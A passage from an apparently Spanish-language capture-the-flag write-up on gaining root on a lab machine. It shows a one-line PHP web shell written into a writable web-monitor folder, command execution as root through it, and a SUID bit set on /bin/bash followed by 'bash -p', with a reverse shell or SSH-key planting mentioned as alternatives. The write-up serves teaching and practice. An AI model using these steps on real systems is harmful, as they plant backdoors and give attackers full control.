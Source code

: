 
Si revisamos los permisos que tenemos sobre las carpetas de `/opt/website-monitor`, veremos que tenemos capacidad de escritura sobre la carpeta `/config` y `/monitors`.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323194437.png>)

En este punto, lo que haremos será crear un archivo **.php** en alguna de estas dos carpetas. Para ello, utilizaremos el siguiente comando.

```bash
echo '<?php system($_GET["cmd"]); ?>' > cmd.php
```

Posteriormente, accederemos a dicho archivo a través de la página web y veremos que tenemos ejecución remota de comandos (**RCE**) como el usuario **root**.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323194559.png>)

Para elevar nuestros privilegios asignaremos permiso **SUID** a la **/bin/bash**. Para ello, debemos de ejecutar lo siguiente: `chmod u+s /bin/bash`. 

>En el caso de que el anterior comando nos de un error, ejecutaremos un `chmod 4777 /bin/bash`.
{: .prompt-tip }

Finalmente, nos ejecutaremos una **bash privilegiada** con `bash -p`, por lo que nos habremos convertido en **root** de forma efectiva (**efective user**).

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323194834.png>)

> Alternativamente podíamos habernos mandado una **Reverse Shell** o introducir nuestra clave pública en `/root/.ssh/authorized_keys`
{: .prompt-info }